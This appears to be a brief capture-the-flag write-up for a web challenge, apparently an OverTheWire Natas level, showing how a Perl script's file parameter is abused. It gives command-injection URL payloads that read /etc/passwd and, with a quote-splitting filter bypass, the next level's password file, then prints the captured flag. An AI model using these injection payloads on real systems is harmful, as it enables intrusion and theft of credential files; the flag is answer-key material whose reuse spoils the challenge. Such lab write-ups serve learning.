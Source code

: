 # Trick

You need to learn Perl. Then use the bypass like:

```
/index.pl?file=|cat+/etc/passwd%00
```

Get flag with:
```
/index.pl?file=|cat+/etc/n""atas_webpass/n""atas30%00
```

# Flag

```
Gz4at8CdOYQkkJ8fJamc11Jg5hOnXM9X
```